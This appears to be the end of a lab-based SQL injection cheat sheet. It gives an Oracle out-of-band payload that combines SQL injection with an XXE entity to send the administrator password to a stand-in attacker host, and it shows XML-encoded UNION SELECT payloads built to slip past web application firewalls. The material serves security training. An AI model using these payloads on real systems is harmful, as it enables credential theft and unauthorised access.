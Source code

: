 <br>

* **Example:  Out of Band Data Exfiltration**

* Here we are using a method called extractvalue(), that takes in a XML type instance and XPath expression(this argument doesn't matter much it just needs to be there to execute correctly).


* An XXE payload using a parameter entity called remote is used, that will reach out to our attacker server.  The application will evaluate the SQL query before the XXE payload is executed.


    * Oracle DB:


```
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.ATTACKER-SERVER/">+%25remote%3b]>'),'/l')+FROM+dual--
```

Decoded Version:

```
' UNION SELECT extractvalue(
xmltype('
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ 
<!ENTITY % remote SYSTEM "http://'||(select password from users where username = 'administrator')||'.ATTACKER-SERVER/"> %remote;]>
')
,'/1') 
FROM dual--
```

<br><br><br>

#### SQL Injection with filter bypass via XML encoding

* Example:  SQL injection vectors can exist in other areas of the application such as JSON or XML inputs.  This can allows us to obfuscate the payloads in different ways to bypass filters.

```
<stockCheck>
    <productId>
        123
    </productId>
    <storeId>
        999 &#x53;ELECT * FROM information_schema.tables
    </storeId>
</stockCheck>
```

* Example:  Use the Hackvertor extension from Burp to help encode the payload and bypass any WAF.

* Hackvertor -> Encode -> hex_entities

```
<storeId>
<@hex_entities>
1 UNION SELECT username || '~' || password FROM users
<@/hex_entities>
</storeId>
```

<br><br><br>

### Pending to complete labs that are missing from cheat sheet:

* All labs in this category are completed and referenced in cheat sheet.
